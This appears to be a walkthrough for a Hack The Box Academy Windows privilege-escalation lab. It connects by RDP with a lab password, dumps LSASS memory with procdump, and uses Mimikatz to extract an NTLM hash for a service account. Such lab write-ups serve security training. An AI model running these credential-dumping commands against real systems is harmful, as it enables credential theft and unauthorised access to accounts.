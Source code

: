### Step-by-Step Solution

#### 1. RDP Connection
```bash
# Connect via RDP
xfreerdp /v:10.129.43.43 /u:jordan /p:'HTB_@cademy_j0rdan!'
```

#### 2. Verify SeDebugPrivilege
```cmd
# Open elevated Command Prompt (Run as Administrator)
# Enter jordan's credentials when prompted

C:\>whoami /priv
# Confirm SeDebugPrivilege is listed (Disabled state is normal)
```

#### 3. LSASS Memory Dump
```cmd
# Navigate to tools directory
cd C:\Tools

# Dump LSASS process
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Verify dump creation
dir lsass.dmp
```

#### 4. Credential Extraction
```cmd
# Launch Mimikatz
mimikatz.exe

# Enable logging
mimikatz # log

# Load LSASS dump
mimikatz # sekurlsa::minidump lsass.dmp

# Extract all credentials
mimikatz # sekurlsa::logonpasswords
```

#### 5. Locate sccm_svc Hash
```cmd
# Search for sccm_svc account in output
# Look for NTLM hash in msv section:

Authentication Id : 0 ; [ID]
Session           : Service from 0
User Name         : sccm_svc
Domain            : WINLPE-SRV01
        msv :
         * Username : sccm_svc
         * Domain   : WINLPE-SRV01
         * NTLM     : [NTLM_HASH_HERE]
```
